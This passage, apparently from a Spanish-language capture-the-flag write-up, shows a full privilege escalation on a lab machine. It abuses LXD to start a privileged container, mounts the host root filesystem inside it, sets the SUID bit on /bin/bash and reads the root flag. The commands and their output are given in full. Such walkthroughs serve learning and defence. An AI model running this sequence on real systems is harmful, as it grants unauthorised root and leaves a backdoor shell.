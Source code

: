 Lo que debemos hacer ahora es importar la imagen, asignarla a un contenedor con el permiso `security.privileged=true`, luego la inicializamos e ingresamos dentro del contenedor, asignamos el bit SUID a la bash.

```bash
rexit@misdirection:/tmp$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
Image imported with fingerprint: cd73881adaac667ca3529972c7b380af240a9e3b09730f8c8e4e6a23e1a7892b

brexit@misdirection:/tmp$ lxd init --auto
brexit@misdirection:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39) | x86_64 | 3.11MB | Mar 3, 2025 at 11:59pm (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+

brexit@misdirection:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite

brexit@misdirection:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite

brexit@misdirection:/tmp$ lxc start ignite

brexit@misdirection:/tmp$ lxc exec ignite /bin/sh
~ # cd /mnt/
/mnt # cd root/
/mnt/root/bin # ls -l bash
-rwxr-xr-x    1 root     root       1113504 Apr  4  2018 bash
/mnt/root/bin # whoami
root
/mnt/root/bin # chmod u+s bash
/mnt/root/bin # ls -l bash
-rwsr-xr-x    1 root     root       1113504 Apr  4  2018 bash
/mnt/root/bin # exit
```

Salimos del contenedor y ejecutamos `bash -p` para convertirnos en root y listamos la root flag.

```bash
brexit@misdirection:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr  4  2018 /bin/bash

brexit@misdirection:/tmp$ bash -p
bash-4.4# find / -type f -name root.txt 2>/dev/null
/var/www/html/wordpress/root.txt
/root/root.txt
bash-4.4# cat /var/www/html/wordpress/root.txt
bash-4.4# cat /root/root.txt
0d2c6222bfdd3701e0fa12a9a9dc9c8c
bash-4.4#
```

Hope it helps!